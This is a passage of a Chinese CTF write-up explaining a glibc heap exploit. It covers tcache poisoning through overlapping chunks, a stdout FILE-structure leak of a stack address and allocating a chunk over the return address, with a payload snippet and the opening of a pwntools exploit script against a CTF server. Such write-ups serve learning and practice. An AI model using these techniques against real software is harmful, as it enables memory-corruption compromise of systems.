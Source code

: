    先在目标bin前面（低地址）合并一个bin，便于最后在unsortedbin中申请**大于0x80的chunk**（这样才不会去tcache中拿）：
   
   ![image-20240722152720725](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221527949.png)
   
   将tcache中腾出一个空间后，将目标bin放入tcache：
   
   ![image-20240722152924102](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221529306.png)
   
   在unsortedbin中申请一个chunk，大小覆盖到next指针即可：
   
   ![image-20240722153526842](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232235173.png)
   
   ![image-20240722160201558](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221602782.png)
   
   
   
   ![image-20240722161122210](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221611413.png)
   
   接着修改完IO_2_1_stdout_结构后，泄漏出**栈地址**：
   
   ![image-20240722163641183](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221636281.png)
   
   确定返回值与该栈地址的偏移，申请到返回值处的chunk：
   
   ![image-20240722164102393](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221641540.png)
   
   
   
   后续申请完两次后，也可以一直像这样使用实现任意地址分配chunk，只需要再次释放掉**目标bin**即可，size未0xa1的chunk一直会覆盖目标bin的next指针，也就是只要free一次目标bin后double free一直存在。所以下面申请到栈地址处的chunk：
   
   ```python
   #第二次使用overlaping 
   free(4)
   free(3)
   payload = p64(0)*(3)+p64(0x91)+p64(heap_addr-0x128)
   add(0x68,payload)   #3 一次申请unsortedbin覆盖不到next指针,所以分两次申请
   debug()
   ```
   
   ![image-20240722164455186](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221714676.png)
   
3. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   p = remote("node4.anna.nssctf.cn",28344)
   # p = process("./pwn")
   # p = gdb.debug("./pwn")
   libc = ELF('./libc.so.6')
   elf = ELF("./pwn")
   
   def add(size,content):
       p.sendlineafter(b':',b'1')
       p.sendlineafter('Please input size: ', str(size))
       p.sendafter('Please input content: ', content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   ```